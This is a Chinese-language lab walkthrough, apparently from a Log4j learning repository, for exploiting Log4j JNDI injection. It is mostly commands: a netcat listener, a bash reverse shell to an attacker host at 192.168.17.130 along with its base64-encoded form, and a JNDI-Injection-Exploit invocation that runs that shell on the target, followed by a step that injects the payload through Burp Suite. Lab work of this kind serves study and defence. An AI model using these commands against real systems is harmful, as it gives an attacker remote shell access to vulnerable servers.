 #### 漏洞利用

在攻击者主机`attacker`上下载工具，具体工具目录在文件中的`tools`目录下。

```
https://github.com/bkfish/Apache-Log4j-Learning.git
```

攻击者主机上启动`7777`端口：

```
nc -l -p 7777
```

构造反弹shell的`payload`
```
bash -i >& /dev/tcp/192.168.17.130/7777 0>&1

# 将上述命令进行 base64 加密
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3LjEzMC83Nzc3IDA+JjE=
```

应用工具 JNDI-Injection-Exploit 搭建服务，格式为：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “命令” -A “ip（攻击者主机）”
# 命令是想要靶机运行的命令
```

执行`JNDI-Injection-Exploit`

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3LjEzMC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.17.130
```
![jndi-exploit](img/jndi-exploit.png)

使用 Burp Suite 进行抓包，修改GET http://192.168.17.130:57863/hello?payload=77 的 payload 参数为上图框中的内容并进行编码
